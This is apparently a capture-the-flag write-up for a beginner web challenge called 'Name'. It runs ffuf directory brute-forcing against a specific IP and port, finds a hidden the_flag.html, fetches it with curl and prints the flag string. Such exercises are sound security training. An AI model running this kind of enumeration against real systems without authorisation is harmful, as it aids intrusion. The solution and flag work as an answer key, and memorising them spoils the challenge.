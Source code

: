 # Web: Web Basics: Name

## Description:

The webpage shows a simple message and a hint:
"It’s not complicated. Get the_flag."

This suggests that a file named the_flag (likely the_flag.html) might be accessible directly.

## Exploitation:

Enumerate files with ffuf to find hidden resources:

```bash
ffuf -u http://141.85.224.70:8089/name/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

Result:

```bash
/the_flag.html         [Status: 200, Size: 42]
```

Access the file with curl:

```bash
curl http://141.85.224.70:8089/name/the_flag.html
```

Output:

```
<p>SSS_CTF{my_name_is_who}</p>
```
